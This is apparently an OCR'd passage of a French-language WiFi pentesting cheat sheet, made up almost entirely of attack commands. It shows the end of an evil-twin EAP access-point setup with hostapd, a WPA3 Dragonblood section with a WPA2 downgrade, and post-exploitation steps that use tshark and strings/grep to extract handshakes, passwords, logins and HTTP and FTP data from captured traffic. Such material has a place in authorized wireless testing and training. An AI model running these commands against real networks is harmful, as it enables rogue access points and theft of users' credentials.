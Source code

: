```bash
EOF

# Fichier utilisateurs EAP
cat > hostapd.eap_user << 'EOF'
*     PEAP,TTLS,TLS,FAST
"user"  MSCHAPV2    "password"  [2]
EOF

# Lancement Evil Twin EAP
sudo hostapd hostapd_eap.conf
```

### Attaques WPA3 (Récent)
```bash
# Reconnaissance WPA3
sudo airodump-ng wlan0 | grep SAE

# Attaque Dragonblood (CVE-2019-9494)
git clone https://github.com/vanhoefm/dragonslayer.git
cd dragonslayer

# Test vulnérabilités WPA3
sudo python3 krack-test-client.py

# Downgrade vers WPA2
# Utilisation d'un evil twin WPA2 avec même SSID
```

## 🔍 Post-Exploitation WiFi

### Analyse du Trafic Capturé
```bash
# Ouverture avec Wireshark
wireshark capture.cap

# Analyse avec tshark
# Filtres utiles:
tshark -r capture.cap -Y "wlan.fc.type_subtype == 0x08"  # Beacons
tshark -r capture.cap -Y "wlan.fc.type_subtype == 0x04"  # Probe requests
tshark -r capture.cap -Y "eapol"                         # Handshakes

# Extraction des handshakes
tshark -r capture.cap -Y "eapol" -w handshakes_only.cap

# Statistiques trafic
tshark -r capture.cap -z conv,wlan -q
```

### Extraction d'Informations Sensibles
```bash
# Recherche de credentials dans trafic
strings capture.cap | grep -i password
strings capture.cap | grep -i login

# Extraction données HTTP
tshark -r capture.cap -Y "http.request" -T fields \
  -e http.host -e http.request.uri

# Recherche données FTP
tshark -r capture.cap -Y "ftp" -T fields \
  -e ftp.request.command -e ftp.request.arg
```
